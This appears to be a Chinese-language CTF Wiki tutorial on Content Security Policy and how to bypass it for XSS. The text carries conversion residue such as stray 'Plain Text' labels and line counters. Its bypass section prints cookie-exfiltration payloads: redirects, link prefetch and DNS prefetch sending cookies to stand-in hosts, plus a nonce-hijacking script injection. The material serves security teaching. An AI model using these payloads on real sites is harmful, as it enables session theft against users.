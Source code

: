 # CSP
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



内容安全策略或CSP是一种内置的浏览器安全措施，用于防御跨站点脚本（XSS）等Web攻击。该策略的规则用于定义一组浏览器可以安全地从中加载内容的路径和源，并给出相应的描述。其中，这些资源包括图像、frame、javascripts等。


一个CSP头由多组CSP策略组成，中间由分号分隔，就像这样：


```plain
Content-Security-Policy: default-src 'self' www.baidu.com; script-src 'unsafe-inline'
Plain Text
```



其中每一组策略包含一个策略指令和一个内容源列表


**一、常用的策略指令：**





### **default-src**





default-src 指令定义了那些没有被更精确指令指定的安全策略。这些指令包括：





**child-src**child-src 指定定义了 web workers 以及嵌套的浏览上下文（如`<frame>`和`<iframe>`）的源。

* 
**connect-src**connect-src定义了请求、XMLHttpRequest、WebSocket 和 EventSource 的连接来源。

* 
**font-src**font-src定义了字体加载的有效来源

* 
**img-src**img-src定义了页面中图片和图标的有效来源

* 
* **media-src**
* **object-src**

**script-src**script-src定义了页面中Javascript的有效来源

* 
**style-src**style-src定义了页面中CSS样式的有效来源

* 



## **二、内容源：**





内容源有三种：源列表、关键字和数据


**1、源列表**





```plain
源列表是一个字符串，指定了一个或多个互联网主机（通过主机名或 IP 地址），和可选的或端口号。站点地址可以包含可选的通配符前缀 (星号, '*')，端口号也可以使用通配符 (同样是 '*') 来表明所有合法端口都是有效来源。主机通过空格分隔。有效的主机表达式包括：    http://*.foo.com （匹配所有使用 http协议加载 foo.com 任何子域名的尝试。）    mail.foo.com:443 （匹配所有访问 mail.foo.com 的 443 端口 的尝试。）    https://store.foo.com  （匹配所有使用 https协议访问 store.foo.com 的尝试。）如果端口号没有被指定，浏览器会使用指定协议的默认端口号。如果协议没有被指定，浏览器会使用访问该文档时的协议。
Plain Text
```



**2、关键字**





‘none’  代表空集；即不匹配任何 URL。两侧单引号是必须的。

* 
‘self’  代表和文档同源，包括相同的 URL 协议和端口号。两侧单引号是必须的。

* 
‘unsafe-inline’  允许使用内联资源，如内联的

* 



### **3、数据**





data:  允许data: URI作为内容来源。

* 
* mediastream:  允许mediastream: URI作为内容来源。 Content-Security-Policy: default-src 'self'; img-src 'self' data:; media-src mediastream:



## CSP绕过

和XSS还是绑定在一起，毕竟需要绕过的就是XSS嘛


## 1**、url跳转**





在default-src ‘none’的情况下，可以使用meta标签实现跳转





```plain
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
1
Plain Text
```






在允许unsafe-inline的情况下，可以用window.location，或者window.open之类的方法进行跳转绕过。





```plain
<script>  window.location="http://www.xss.com/x.php?c=[cookie]";</script>
123
Plain Text
```



## 2、`<link>`标签预加载 CSP对link标签的预加载功能考虑不完善。





在Chrome下，可以使用如下标签发送cookie


```plain
<link rel="prefetch" href="http://www.xss.com/x.php?c=[cookie]">
1
Plain Text
```






在Firefox下，可以将cookie作为子域名，用dns预解析的方式把cookie带出去，查看dns服务器的日志就能得到cookie





```plain
<link rel="dns-prefetch" href="//[cookie].xxx.ceye.io">
1
Plain Text
```






## **3、利用浏览器补全**


有些网站限制只有某些脚本才能使用，往往会使用`<script>`标签的nonce属性，只有nonce一致的脚本才生效，比如CSP设置成下面这样：


```plain
Content-Security-Policy: default-src 'none';script-src 'nonce-abc'
1
Plain Text
```






那么当脚本插入点为如下的情况时





```plain
<p>插入点</p>    <script id="aa" nonce="abc">document.write('CSP');</script>
12
Plain Text
```






这样会拼成一个新的script标签，其中的src可以自由设定





```plain
<p><script src=//14.rs a="</p>    <script id="aa" nonce="abc">document.write('CSP');</script>
Plain Text
```




